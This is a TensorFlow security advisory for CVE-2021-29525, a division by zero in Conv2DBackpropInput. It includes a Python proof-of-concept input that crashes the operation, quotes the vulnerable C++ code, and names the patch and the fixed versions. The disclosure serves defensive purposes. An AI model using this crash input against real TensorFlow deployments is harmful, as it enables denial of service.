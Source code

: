 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-014.md
## TFSA-2021-014: Division by 0 in `Conv2DBackpropInput`

### CVE Number
CVE-2021-29525

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2DBackpropInput`:

```python
import tensorflow as tf

input_tensor = tf.constant([52, 1, 1, 5], shape=[4], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 1, 5, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[52, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropInput(input_sizes=input_tensor, filter=filter_tensor,
                               out_backprop=out_backprop, strides=[1, 1, 1, 1],
                               use_cudnn_on_gpu=True, padding='SAME',
                               explicit_paddings=[], data_format='NHWC',
                               dilations=[1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/b40060c9f697b044e3107917c797ba052f4506ab/tensorflow/core/kernels/conv_grad_input_ops.h#L625-L655) does a division by a quantity that is controlled by the caller:

```cc
  const size_t size_A = output_image_size * dims.out_depth;
  const size_t size_B = filter_total_size * dims.out_depth;
  const size_t size_C = output_image_size * filter_total_size;
  const size_t work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction ? 1 :
      (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

### Patches
We have patched the issue in GitHub commit
[2be2cdf3a123e231b16f766aa0e27d56b4606535](https://github.com/tensorflow/tensorflow/commit/2be2cdf3a123e231b16f766aa0e27d56b4606535).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
